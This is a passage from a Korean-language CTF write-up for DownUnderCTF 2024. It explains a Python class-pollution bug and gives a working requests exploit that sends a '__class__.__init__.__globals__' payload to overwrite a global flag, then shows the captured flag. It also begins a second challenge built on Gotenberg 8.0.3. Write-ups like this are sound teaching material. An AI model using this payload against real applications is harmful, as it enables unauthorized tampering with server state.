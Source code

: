 flag 값은 전역변수로 선언되어있어 `__class__.__init__.__globals__`로 전역 변수에 접근이 가능하다.     
즉, merge()로 `__class__.__init__.__globals__.flag` 값을 "true"로 변경해주면 된다.               
               
### Exploit Code    
```python
import requests

url = "https://web-co2-9a13ebd2da030b42.2024.ductf.dev"

token = ".eJwlzjESAjEIAMC_pLaAJAS4z9wEAqPtnVc5_l0d6232VfY84ryX7XlccSv7Y5WtZIKgY2ZfxI4ztIqSSCJDwAI3HOgWQY17pzGlGVYedZlgEIKBKtCglMXa2LmHmLo7a13Q6qxGvQ_vkGZo9sMxkzwpRKN8I9cZx39Ty_sDsawvfg.ZogGoQ.DVOaVTejSxgMsXsZ1xaSh-xPmCI"

r = requests.post(
    f"{url}/save_feedback",
    cookies={"session": token},
    json={
        "title": "asdf", 
        "content": "asdf", 
        "rating": "12", 
        "referred": "asdf",
        "__class__": {"__init__": {"__globals__": {"flag": "true"}}}
    }
)

print(r.text) 

r = requests.get(
    f"{url}/get_flag",
    cookies={"session": token},
)
print(r.text) 
```      
     
### Flag    
DUCTF{_cl455_p0lluti0n_ftw_}         
         

<a id="hah-got-em"></a>         

# hah got em     
           
173 solved / 129 pts            
            
```dockerfile
FROM gotenberg/gotenberg:8.0.3

COPY flag.txt /etc/flag.txt
```               
     
도커 파일에는 gotenberg 8.0.3 버전을 사용하고 있는 것 외엔 플래그 경로만 포함하고 있다.   
            
https://github.com/gotenberg/gotenberg/compare/v8.0.3...v8.1.0    
      